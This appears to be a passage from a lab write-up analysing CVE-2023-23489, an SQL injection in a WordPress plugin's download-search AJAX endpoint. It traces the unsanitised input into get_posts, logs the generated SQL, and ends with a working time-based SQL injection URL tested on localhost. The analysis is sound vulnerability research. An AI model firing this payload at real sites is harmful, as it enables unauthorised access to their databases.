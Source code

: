 If you search for variable `$args` inside the function `edd_ajax_download_search`, you will see it's passed to `get_posts`
![Image](/images/cve-2023-23489/args-variable2.png) 

Let's search the files to see where is the `get_posts` function is located.
<br>
You can get it either from command line of a container shell
```jfx
grep -r "function get_posts()" . | grep '\.php'
```
![Image](/images/cve-2023-23489/get_posts-cmd.png) 
Or from Visual Studio Code, go to the search icon and type `function get_posts()`. You will see it's in the file `class-wp-query.php`
![Image](/images/cve-2023-23489/get_posts-visual-code.png) 

The function `get_posts()` is wordpress function used in the class WP_Query

We will add this code to functions.php to see the full SQL query
```php
add_filter('posts_request', function($sql, $query) {
    error_log("SQL Query: " . $sql);
    return $sql;
}, 10, 2);
```
![Image](/images/cve-2023-23489/locate-functions.png) 
As you can see, the active theme is `Twenty Twenty-Five` theme 
![Image](/images/cve-2023-23489/active-theme.png) 
so well edit the functions.php file `/wp-content/themes/twentytwentyfive/functions.php`
![Image](/images/cve-2023-23489/edit-functions.png) 
If you go to the url
```jfx
http://localhost:8000/wp-admin/admin-ajax.php?action=edd_download_search&s=5555
```
A file called `debug.log` will be generated under wp-content, containing the full SQL query.
![Image](/images/cve-2023-23489/SQL-Quyery.png) 
As you can see, the user input isn't sanitized, making it vulnerable to SQL injection.
```jfx
http://localhost:8000/wp-admin/admin-ajax.php?action=edd_download_search&s=5555%27+AND+(SELECT+1+FROM+(SELECT(SLEEP(5)))a)--+-
```
We test this time-based SQLi query.
![Image](/images/cve-2023-23489/SQL-Time-Based.png) 

### References
<https://nvd.nist.gov/vuln/detail/CVE-2023-23489/>
<https://wpscan.com/vulnerability/c5a6830c-6420-42fc-b20c-8e20224d6f18/>

